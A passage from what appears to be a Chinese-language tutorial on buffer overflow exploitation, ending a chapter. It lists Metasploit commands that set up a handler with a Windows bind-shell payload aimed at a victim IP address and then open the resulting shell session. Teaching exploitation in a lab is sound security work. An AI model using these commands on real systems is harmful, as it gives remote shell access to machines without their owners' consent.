 我们的 shellcode 现在正在运行并等待我们的连接。让我们回到我们的攻击机器上，设置处理程序以连接到受害者机器：

```
$ msfconsole
$ use exploit/multi/handler
$ set payload windows/shell_bind_tcp
$ set rhost 192.168.129.128
$ run
```

前面命令的输出可以在下面的截图中看到：

![](img/00283.jpeg)

连接已在`session 2`上建立：

```
 $ session 2
```

前面命令的输出可以在下面的截图中看到：

![](img/00284.jpeg)

它奏效了！

# 总结

在这一点上，我们知道了如何在 Linux 和 Windows 上进行缓冲区溢出攻击。此外，我们知道如何利用堆栈溢出。

在下一章中，我们将讨论更多的技术，比如如何定位和控制指令指针，如何找到有效载荷的位置，以及更多关于缓冲区溢出攻击的技术。
